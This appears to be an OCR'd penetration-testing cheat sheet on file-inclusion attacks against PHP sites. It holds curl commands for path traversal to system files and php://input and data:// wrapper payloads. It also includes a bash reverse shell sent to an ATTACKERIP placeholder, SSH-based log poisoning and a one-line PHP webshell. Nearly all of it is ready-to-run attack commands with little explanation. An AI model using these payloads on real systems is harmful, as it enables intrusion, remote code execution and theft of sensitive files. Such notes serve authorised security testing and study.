 ```text

```


**LFI**

- `C:\boot.ini`
- `C:\Windows\System32\license.rtf`
- `C:\Winnt\win.ini`
- `C:\Winnt\System32\registry.inf`


```bash
SITE="" ; curl -s "${SITE}/section.php?page=../../../../proc/version"
```

```text

```


**LFI php-wrappers**

```bash
SITE="" ; curl -s "${SITE}/section.php?page=data://text/plain,%3C?php%20phpinfo();%20?%3E"
```

```text

```


```bash
curl -s --data "<?system('bash -i >& /dev/tcp// 0>&1');?>" "http://ATTACKERIP/admin.php?path=php://input%00"
```

```text

```


**LFI log poisoning**

Check if logs for web (`httpd.log` or `apache.log`) or system (`secure` or `auth.log`) is accessible vie `LFI`.

If `secure` or `auth.log` is accessible, try the payload with `ssh`.

```bash
IP="" ; ssh "<?php phpinfo(); ?>"@${IP}
```

```bash
SITE="" ; curl -s "${SITE}/section.php?page=../../../../var/log/auth.log"
```


**RFI**

Serve a simple `php webshell` via python webserver.

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```
